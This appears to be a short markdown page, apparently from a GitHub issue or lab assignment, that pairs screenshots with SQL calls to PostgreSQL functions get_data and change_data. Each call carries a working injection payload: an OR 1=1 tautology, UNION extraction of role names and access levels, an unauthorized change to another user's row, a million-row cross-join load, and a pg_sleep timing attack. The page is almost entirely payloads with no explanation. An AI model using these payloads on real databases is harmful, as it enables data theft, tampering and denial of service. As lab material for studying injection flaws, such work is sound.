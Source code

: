 ![image](https://user-images.githubusercontent.com/58373600/207052197-504f2be1-5716-40ad-bbe5-3d0ad460f5f9.png)

`SELECT * FROM get_data('1'' OR 1=1 -- ');`

![image](https://user-images.githubusercontent.com/58373600/207052345-78047523-128d-4f4c-9d39-09d5a42bfadb.png)

`SELECT * FROM get_data('1'' UNION SELECT CAST(NULL AS INTEGER), CAST(role_name AS VARCHAR), CAST(access_level AS INTEGER) FROM role_access_level -- ');`

![image](https://user-images.githubusercontent.com/58373600/207052496-6f675c13-f9df-4f8e-9ad1-d110f0cfe84f.png)

`SELECT * FROM change_data('1'' OR role_name = ''sergey'' -- ', 3);`

![image](https://user-images.githubusercontent.com/58373600/207052878-3bbd9a1f-55d5-4928-b648-82c16990feda.png)

`SELECT * FROM get_data('1'' UNION (SELECT a1, CAST(a1 AS VARCHAR), CAST(a1 AS INTEGER) FROM (SELECT generate_series a1 FROM generate_series (1,1000)) t1 CROSS JOIN (SELECT * FROM generate_series (1,1000) t2) t3) -- ');`

![image](https://user-images.githubusercontent.com/58373600/207053016-3ad3b90e-7b1c-47f0-a0c8-5ee8d09ed72d.png)

`SELECT * FROM get_data('1'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) --');`

![image](https://user-images.githubusercontent.com/58373600/207053352-9b54181d-f1c2-4f4b-8eb5-c77379eca869.png)
